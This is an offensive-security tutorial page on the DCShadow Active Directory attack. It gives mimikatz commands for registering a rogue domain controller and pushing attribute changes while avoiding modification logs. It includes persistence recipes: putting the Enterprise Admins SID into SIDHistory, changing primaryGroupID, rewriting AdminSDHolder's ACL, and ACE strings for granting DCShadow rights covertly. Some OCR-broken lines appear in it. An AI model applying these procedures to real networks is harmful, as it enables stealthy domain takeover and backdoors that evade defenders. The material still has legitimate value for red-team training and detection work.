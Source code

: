 # DCShadow

## DCShadow

It registers a **new Domain Controller** in the AD and uses it to **push attributes** \(SIDHistory, SPNs...\) on specified objects **without** leaving any **logs** regarding the **modifications**. You **need DA** privileges and be inside the **root domain**.  
Note that if you use wrong data, pretty ugly logs will appear.

To perform the attack you need 2 mimikatz instances. One of them will start the RPC servers with SYSTEM privileges \(you have to indicate here the changes you want to perform\), and the other instance will be used to push the values:

mimikatz1 \(RPC servers\)
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```


mimikatz2 \(push\) - Needs DA or similar
```bash
lsadump::dcshadow /push
```


Notice that **`elevate::token`** won't work in mimikatz1 session as that elevated the privileges of the thread, but we need to elevate the **privilege of the process**.  
You can also select and "LDAP" object: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

You can push the changes from a DA or from a user with this minimal permissions:

* In the **domain object**:
  * _DS-Install-Replica_ \(Add/Remove Replica in Domain\)
  * _DS-Replication-Manage-Topology_ \(Manage Replication Topology\)
  * _DS-Replication-Synchronize_ \(Replication Synchornization\)
* The **Sites object** \(and its children\) in the **Configuration container**: 
  * _CreateChild and DeleteChild_
* The object of the **computer which is registered as a DC**:
  * _WriteProperty_ \(Not Write\)
* The **target object**:
  * _WriteProperty_ \(Not Write\)

You can use ****[**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) to give these privileges to an unprivileged user \(notice that this will leave some logs\). This is much more restrictive than having DA privileges.  
For example: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  This means that the username _**student1**_ when logged on in the machine _**mcorp-student1**_ has DCShadow permissions over the object _**root1user**_.

### Using DCShadow to create backdoors

Set Enterprise Admins in SIDHistory to a user
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519 
```


Chage PrimaryGroupID \(put user as member of Domain Administrators\)
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```


Modify ntSecurityDescriptor of AdminSDHolder \(give Full Control to a user\)
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```


### Shadowception - Give DCShadow permissions using DCShadow \(no modified permissions logs\)

We need to append following ACEs with our user's SID at the end:

* On the domain object:
  * `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
  * `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
  * `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* On the attacker computer object: `(A;;WP;;;UserSID)`
* On the target user object: `(A;;WP;;;UserSID)`
* On the Sites object in Configuration container: `(A;CI;CCDC;;;UserSID)`

To get the current ACE of an object: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Notice that in this case you need to make **several changes,** not just one. So, in the **mimikatz1 session** \(RPC server\) use the parameter **`/stack` with each change** you want to make. This way, you will only need to **`/push`** one time to perform all the stucked changes in the rouge server.



\*\*\*\*[**More information about DCShadow in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)\*\*\*\*

